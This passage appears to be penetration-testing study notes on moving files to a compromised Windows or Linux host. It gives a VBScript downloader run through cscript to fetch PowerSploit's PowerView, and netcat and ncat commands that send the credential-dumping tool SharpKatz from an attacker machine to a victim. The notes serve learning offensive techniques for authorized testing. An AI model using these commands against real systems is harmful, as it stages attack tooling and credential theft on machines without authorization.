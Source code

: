 And then we can use following command from Windows CMD or PowerShell to execute our code:
```powershell
C:\carnifex17> cscript.exe /nologo wget.js https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/dev/Recon/PowerView.ps1 PowerView.ps1
```
### VBScript
**VBScript** or ("Microsoft Visual Basic Scription Edition") is Microsoft scripting language that is modeled on Visual Basic. You could make wget.vbs file to download a file:
```vbscript
dim xHttp: Set xHttp = createobject("Microsoft.XMLHTTP")
dim bStrm: Set bStrm = createobject("Adodb.Stream")
xHttp.Open "GET", WScript.Arguments.Item(0), False
xHttp.Send

with bStrm
    .type = 1
    .open
    .write xHttp.responseBody
    .savetofile WScript.Arguments.Item(1), 2
end with
```
- **Download a File using VBScript and cscript.exe**
```powershell
C:\carnifex17> cscript.exe /nologo wget.vbs https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/dev/Recon/PowerView.ps1 PowerView2.ps1
```
## Miscellaneous File Transfer Methods
### File Transfer with Netcat and Ncat
3. **Netcat - Attack Host - Sending File to Compromised machine**. The option `-q 0` gonna close connection after transferring. 
```bash
# Using original netcat
victim$ nc -l -p 8000 > SharpKatz.exe
```
```bash
attacker$ nc -q 0 192.168.49.128 8000 < SharpKatz.exe
```
4. **Ncat - Attack Host - Sending File to Compromised machine**
```bash
# Using Ncat
victim$ ncat -l -p 8000 --recv-only > SharpKatz.exe
```
```bash
attacker$ ncat --send-only 192.168.49.128 8000 < SharpKatz.exe
```
5. **Sending File as Input to Netcat**
```bash
attacker$ sudo nc -l -p 443 -q 0 < SharpKatz.exe
```
```bash
victim$ nc 192.168.49.128 443 > SharpKatz.exe
```
6. **Sending File as Input to Ncat**
```bash
attacker$ sudo ncat -l -p 443 --send-only < SharpKatz.exe
```
```bash
victim$ ncat 192.168.49.128 443 --recv-only > SharpKatz.exe
```
8. **Sending File from Attacker machine to Compromised using /dev/tcp**
```bash
# Netcat option
attacker$ sudo nc -l -p 443 -q 0 < SharpKatz.exe
``` 
```bash
# Ncat option
```